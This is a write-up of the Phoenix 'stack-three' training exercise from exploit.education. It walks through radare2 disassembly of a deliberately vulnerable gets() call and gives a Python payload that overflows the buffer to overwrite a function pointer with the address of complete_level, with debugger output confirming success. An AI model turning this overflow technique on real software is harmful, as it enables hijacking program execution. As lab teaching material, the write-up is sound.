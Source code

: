 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Three"
date: "2019-10-12 10:33:00 +0300"
categories: exploit-education phoenix x86
---
```


To get information about the binary, `rabin2` is really useful.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-three 
arch     x86
baddr    0x8048000
binsz    3812
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

Once more, this is a 32-bit Linux ELF with no protection against stack overflows.

The next step is to disassemble the binary.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-three 
{% endhighlight %}

{% highlight nasm %}
[0x080483a0]> aas
Cannot analyze at 0x08048620
[0x080483a0]> afl
0x0804831c    1 17           sym._init
0x080484f0    7 277  -> 112  sym.frame_dummy
0x080485e0    5 49           sym.__do_global_ctors_aux
0x08048611    1 12           sym._fini
0x08048470    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   45 588  -> 695  sym..interp
0x080483a0    1 62           entry0
0x08048390    1 6            sym.imp.__libc_start_main
0x08048710    1 14           loc.__GNU_EH_FRAME_HDR
0x08048734    3 34           sym..eh_frame
0x08048770    1 38           obj.__EH_FRAME_BEGIN
0x080483e0    4 49   -> 40   sym.deregister_tm_clones
0x080487b0    1 4            obj.__FRAME_END
0x08048555    4 132          main
0x08048535    1 32           sym.complete_level
0x08048360    1 6            sym.imp.puts
0x08048380    1 6            sym.imp.exit
0x08048350    1 6            sym.imp.gets
0x08048370    1 6            sym.imp.fflush
[0x080483a0]> s main
[0x08048555]> pdf
/ (fcn) main 132
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483d4
|           0x08048555      8d4c2404       lea ecx, [arg_4h]
|           0x08048559      83e4f0         and esp, 0xfffffff0
|           0x0804855c      ff71fc         push dword [ecx - 4]
|           0x0804855f      55             push ebp
|           0x08048560      89e5           mov ebp, esp
|           0x08048562      51             push ecx
|           0x08048563      83ec54         sub esp, 0x54
|           0x08048566      83ec0c         sub esp, 0xc
|           0x08048569      6864860408     push str.Welcome_to_phoenix_stack_three__brought_to_you_by_https:__exploit.education ; 0x8048664 ; "Welcome to phoenix/stack-three, brought to you by https://exploit.education"
|           0x0804856e      e8edfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048573      83c410         add esp, 0x10
|           0x08048576      c745f4000000.  mov dword [var_ch], 0
|           0x0804857d      83ec0c         sub esp, 0xc
|           0x08048580      8d45b4         lea eax, [var_4ch]
|           0x08048583      50             push eax
|           0x08048584      e8c7fdffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048589      83c410         add esp, 0x10
|           0x0804858c      8b45f4         mov eax, dword [var_ch]
|           0x0804858f      85c0           test eax, eax
|       ,=< 0x08048591      742c           je 0x80485bf
|       |   0x08048593      8b45f4         mov eax, dword [var_ch]
|       |   0x08048596      83ec08         sub esp, 8
|       |   0x08048599      50             push eax
|       |   0x0804859a      68b0860408     push str.calling_function_pointer____p ; 0x80486b0 ; "calling function pointer @ %p\n"
|       |   0x0804859f      e89cfdffff     call sym.imp.printf         ; sym..interp+0x22c
|       |   0x080485a4      83c410         add esp, 0x10
|       |   0x080485a7      a1a4980408     mov eax, dword [obj.stdout] ; obj.__TMC_END
|       |                                                              ; [0x80498a4:4]=0
|       |   0x080485ac      83ec0c         sub esp, 0xc
|       |   0x080485af      50             push eax
|       |   0x080485b0      e8bbfdffff     call sym.imp.fflush         ; int fflush(FILE *stream)
|       |   0x080485b5      83c410         add esp, 0x10
|       |   0x080485b8      8b45f4         mov eax, dword [var_ch]
|       |   0x080485bb      ffd0           call eax
|      ,==< 0x080485bd      eb10           jmp 0x80485cf
|      |`-> 0x080485bf      83ec0c         sub esp, 0xc
|      |    0x080485c2      68d0860408     push str.function_pointer_remains_unmodified_:___better_luck_next_time ; 0x80486d0 ; "function pointer remains unmodified :~( better luck next time!"
|      |    0x080485c7      e894fdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x080485cc      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485bd
|      `--> 0x080485cf      83ec0c         sub esp, 0xc
|           0x080485d2      6a00           push 0
\           0x080485d4      e8a7fdffff     call sym.imp.exit           ; void exit(int status)
[0x08048555]> agf
[0x08048555]>  # int main (int argc, char **argv, char **envp);
         .-----------------------------------------------------------------------------------------.
         |  0x8048555                                                                              |
         | (fcn) main 132                                                                          |
         |   int main (int argc, char **argv, char **envp);                                        |
         | ; var int32_t var_4ch @ ebp-0x4c                                                        |
         | ; var int32_t var_ch @ ebp-0xc                                                          |
         | ; arg int32_t arg_4h @ esp+0x4                                                          |
         | ; DATA XREF from entry0 @ 0x80483d4                                                     |
         | lea ecx, [arg_4h]                                                                       |
         | and esp, 0xfffffff0                                                                     |
         | push dword [ecx - 4]                                                                    |
         | push ebp                                                                                |
         | mov ebp, esp                                                                            |
         | push ecx                                                                                |
         | sub esp, 0x54                                                                           |
         | sub esp, 0xc                                                                            |
         | ; 0x8048664                                                                             |
         | ; "Welcome to phoenix/stack-three, brought to you by https://exploit.education"         |
         | push str.Welcome_to_phoenix_stack_three__brought_to_you_by_https:__exploit.education    |
         | ; int puts(const char *s)                                                               |
         | call sym.imp.puts;[oa]                                                                  |
         | add esp, 0x10                                                                           |
         | mov dword [var_ch], 0                                                                   |
         | sub esp, 0xc                                                                            |
         | lea eax, [var_4ch]                                                                      |
         | push eax                                                                                |
         | ; char *gets(char *s)                                                                   |
         | call sym.imp.gets;[ob]                                                                  |
         | add esp, 0x10                                                                           |
         | mov eax, dword [var_ch]                                                                 |
         | test eax, eax                                                                           |
         | je 0x80485bf                                                                            |
         `-----------------------------------------------------------------------------------------'
                 f t
                 | |
                 | '--------------------------------.
    .------------'                                  |
    |                                               |
.-------------------------------------------.   .---------------------------------------------------------------------------.
|  0x8048593                                |   |  0x80485bf                                                                |
| mov eax, dword [var_ch]                   |   | sub esp, 0xc                                                              |
| sub esp, 8                                |   | ; 0x80486d0                                                               |
| push eax                                  |   | ; "function pointer remains unmodified :~( better luck next time!"        |
| ; 0x80486b0                               |   | push str.function_pointer_remains_unmodified_:___better_luck_next_time    |
| ; "calling function pointer @ %p\n"       |   | ; int puts(const char *s)                                                 |
| push str.calling_function_pointer____p    |   | call sym.imp.puts;[oa]                                                    |
| ; sym..interp+0x22c                       |   | add esp, 0x10                                                             |
| call sym.imp.printf;[oc]                  |   `---------------------------------------------------------------------------'
| add esp, 0x10                             |       v
| ; obj.__TMC_END                           |       |
| ; [0x80498a4:4]=0                         |       |
| mov eax, dword [obj.stdout]               |       |
| sub esp, 0xc                              |       |
| push eax                                  |       |
| ; int fflush(FILE *stream)                |       |
| call sym.imp.fflush;[od]                  |       |
| add esp, 0x10                             |       |
| mov eax, dword [var_ch]                   |       |
| call eax                                  |       |
| jmp 0x80485cf                             |       |
`-------------------------------------------'       |
    v                                               |
    |                                               |
    '-------------------------------------.         |
                                          | .-------'
                                          | |
                                    .-----------------------------------.
                                    |  0x80485cf                        |
                                    | ; CODE XREF from main @ 0x80485bd |
                                    | sub esp, 0xc                      |
                                    | push 0                            |
                                    | ; void exit(int status)           |
                                    | call sym.imp.exit;[oe]            |
                                    `-----------------------------------'
{% endhighlight %}

This level is really not that different from the previous ones. What is of importance is that the variable `var_ch`, that needs to be overwritten by exploiting the vulnerable to stack-based buffer overflow `gets` call, is being `call`ed. Considering that its value can be overwritten, this means that an attacker can have control over the program execution.

The approach to complete this level is identical to the previous one. The objective is to call the function `sym.complete_level` at address `0x08048535`.

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*64 + b'\x35\x85\x04\x08')
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-three -e dbg.profile=myProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7f51d4b]> aas
Cannot analyze at 0x08048620
[0xf7f51d4b]> db 0x08048584
[0xf7f51d4b]> dc
Welcome to phoenix/stack-three, brought to you by https://exploit.education
hit breakpoint at: 8048584
[0x08048584]> dr
eax = 0xffebf72c
ebx = 0xf7f87000
ecx = 0xffebf660
edx = 0x00000000
esi = 0xffebf804
edi = 0x00000001
esp = 0xffebf710
ebp = 0xffebf778
eip = 0x08048584
eflags = 0x00000296
oeax = 0xffffffff
[0x08048584]> px/24xw 0xffebf710
0xffebf710  0xffebf72c 0x00000000 0x00000084 0x00000010  ,...............
0xffebf720  0x0804831c 0x08048611 0x00000000 0x00000063  ............c...
0xffebf730  0x00000000 0x080482e4 0x00000008 0x00000008  ................
0xffebf740  0x00000011 0xf7f8919c 0x00000000 0x080482ec  ................
0xffebf750  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffebf760  0x00000000 0x00000000 0x00000000 0x00000000  ................
[0x08048584]> px/xw 0xffebf778-0xc
0xffebf76c  0x00000000                                   ....
[0x08048584]> dso
hit breakpoint at: 8048589
[0x08048584]> px/24xw 0xffebf710
0xffebf710  0xffebf72c 0x00000000 0x00000084 0x00000010  ,...............
0xffebf720  0x0804831c 0x08048611 0x00000000 0x58585858  ............XXXX
0xffebf730  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf740  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf750  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffebf760  0x58585858 0x58585858 0x58585858 0x08048535  XXXXXXXXXXXX5...
[0x08048584]> px/xw 0xffebf778-0xc
0xffebf76c  0x08048535                                   5...
[0x08048584]> dc
calling function pointer @ 0x8048535
Congratulations, you've finished phoenix/stack-three :-) Well done!
{% endhighlight %}

## Conclusion
Stack Three did not differ from Stack Two besides the value that needed to be written on the local variable `var_ch`.